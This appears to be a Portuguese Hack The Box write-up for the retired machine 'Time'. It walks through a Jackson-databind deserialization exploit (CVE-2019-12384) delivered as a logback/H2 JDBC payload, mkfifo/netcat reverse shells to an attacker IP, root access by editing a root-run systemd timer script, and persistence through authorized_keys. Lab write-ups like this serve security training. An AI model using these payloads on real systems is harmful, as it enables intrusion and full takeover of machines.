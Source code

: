 ```yaml
---
layout: single
title: "Hackthebox write-up: Time"
namespace: htb-time
category: Writeup
tags: HackTheBox htb-medium htb-linux
date: 2021-04-03 16:00:00
header:
   teaser: https://i.imgur.com/dL9pe5L.png
---
```


Olá pessoal!

A máquina desta semana será **Time**, outra máquina Linux classificada como mediana do [Hack The Box](https://www.hackthebox.eu), criada por [egotisticalSW](https://app.hackthebox.eu/users/94858) e [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB Time](https://i.imgur.com/UViaunV.png){: .align-center}

## Enumeração

Iniciamos com a enumeração dos serviços publicado a partir de um quick scan do `nmap`, onde o output se encontra abaixo.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - Serviço HTTP

Iniciando a verificação pelo serviço HTTP que executa na porta 80, vemos que temos um serviço de validação e formatação de arquivo JSON

![Online JSON Parser - Time](https://i.imgur.com/KWUpOXL.png){: .align-center}

Após executar algumas enumerações utilizando `whatweb` e `nikto` não encontrei nada útil, logo parti para a enumeração da aplicação buscando por alguma vulnerabilidade de injeção de código ou LFI.

Analisando a aplicação temos duas funcionalidades: **Beautify** e **Validate**:

- A opção **beautify**, ao receber um JSON válido, o formata de forma "bonita" e, ao enviar um request inválido (por exemplo "test"), retorna o valor `null`.

![Online JSON Parser - Time - beautify](https://i.imgur.com/gwqqcNt.png){: .align-center}

- Já a opção em beta **validate** verifica a sintaxe do JSON fornecido. Quando enviamos um request inválido (por exemplo "test"), exceção não esperada da aplicação é exibida.

  ```plaintext
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Acesso inicial

Ao buscar por `com.fasterxml.jackson.core` encontrei detalhes sobre o projeto **Jackson**, desenvolvido pela **FasterXML** e do qual o componente core é base para o [jackson-databind](https://github.com/FasterXML/jackson-databind), popular pela sua biblioteca de JSON, a qual é implementada neste portal para as funcionalidades de validação e formatação.

Pesquisando por CVEs para o jackson-databind, os seguintes foram encontrados para execução de código em 2019, de acordo com o site [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/ju87o1J.png){: .align-center}

Dos 4 itens listados, encontrei para o **CVE-2019-12384** um PoC funcional [neste blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), o qual utilizei para obter o acesso inicial. Os seguintes passos foram executados para obter um shell reverso:

- Criação de um arquivo `inject.sql` com o código abaixo, modificado da versão do blog para iniciar um shell reverso para a máquina atacante na porta 4443 e publicado usando um servidor HTTP python3 (`sudo python3 -m http.server 80`) a partir do diretório de onde o arquivo se encontra.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configurando listener via netcat com o comando `nc -lnvp 4443`.
- Enviado o payload abaixo na aplicação no lugar do JSON a ser validado.

  ```plaintext
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/xsb87hN.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/SiAG5hB.png){: .align-center}

## User flag

Após upgrade do shell, iniciado enumeração e identificado que o usuário utilizado, **pericles**, era um usuário comum do Linux e não possuía nenhum tipo de privilégio especial.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Acessando seu diretório raiz, encontrado o user.txt onde foi obtido o primeiro flag.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Antes de dar continuidade na enumeração, para simplificar o processo de obtenção de um shell reverso se necessário, criado uma chave SSH usando o `ssh-keygen` e incluído a chave pública no arquivo `~/.ssh/authorized_keys`, o que nos permidiu conectar diretamente ao usuário pericles via SSH.

A enumeração foi realizada utilizando o script `linpeas.sh` e um dos itens encontrados chamou bastante atenção, fazendo referência ao nome da máquina: um arquivo shell de propriedade do usuário `pericles` no caminho `/usr/bin/timer_backup.sh`.

Este arquivo está configurado para execução através de um **system timer** (`/etc/systemd/system/timer_backup.timer` e `/etc/systemd/system/timer_backup.service`) e configurado para execução **a cada 10s** com privilegios de `root`.

Como temos privilégios para editar o shell script, inclui a linha abaixo para obter um shell reverso e, após alguns segundos, recebi um shell reverso! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

Como o processo é reexecutado após 10s, todos os processos existentes são finalizados e perdemos a conexão com a máquina. Apenas obter o flag de root é uma tarefa possível neste tempo, o que foi utilizado inicialmente.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

Caso queira uma conexão mais persistente temos duas opções iniciais:

- Configurar o system timer para incluir a chave pública no arquivo `/root/.ssh/authorized_keys`, nos permitindo conectar via SSH como `root`.
- Iniciar outro shell reverso assim que obtermos a conexão inicial, que pode ser alcançado de múltiplas formas como Metasploit AutoRunScript e colocando uma instrução para ser passada assim que uma conexão via netcat é estabelecida, conforme podemos ver abaixo onde o comando `id` é executado assim que a sessão é iniciada:

```bash
printf "id\n" | nc -lnvp 4443
```

Espero que tenha sido útil e vejo vocês no próximo post! :smiley:

